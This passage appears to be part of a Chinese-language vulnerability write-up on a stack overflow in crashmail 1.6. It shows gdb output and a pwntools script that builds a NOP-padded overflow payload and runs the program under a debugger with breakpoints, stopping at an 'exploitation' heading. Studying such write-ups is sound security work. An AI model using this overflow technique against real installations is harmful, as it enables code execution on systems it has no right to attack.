 ```bash
Continuing.                                                                                     │test@0c3259477029:/test$ 
                                                                                        │test@0c3259477029:/test$ ls
Breakpoint 2, 0x0000000000404188 in main (argc=32728, argv=0x0) at crashmail/crashmail.c:720    │ bin
720     }                                                                                       │ container_start.sh
(gdb) p/x $rsp                                                                                  │ crashmail-1.6
$3 = 0x7ffda2738a08                                                                             │ crashmail-1.6.tar.gz
(gdb)                    

```

 

附上调试exp：

```python
#!/usr/bin/python

# shellcode版本
from subprocess import run
from pwn import *

context.arch = 'amd64'
context.os = 'linux'
context.terminal = ['tmux', 'splitw', '-hb']

offset = 0xd0
offset -= len('.busy')
offset -= 1

payload = b'\x90' * offset
script = '''
    b *0x4039EE
    c
    p &buf
    set $rbp=$1
    set *(unsigned long*)$rsp=0x404187
    b *0x404188
'''

# run(["/test/crashmail-1.6/bin/crashmail", "SETTINGS", payload])
gdb.debug(args=["/test/crashmail-1.6/bin/crashmail", "LOCK", "SETTINGS", payload, "UNLOCK"], gdbscript=script, exe="/test/crashmail-1.6/bin/crashmail")
pause()
```

# 漏洞利用
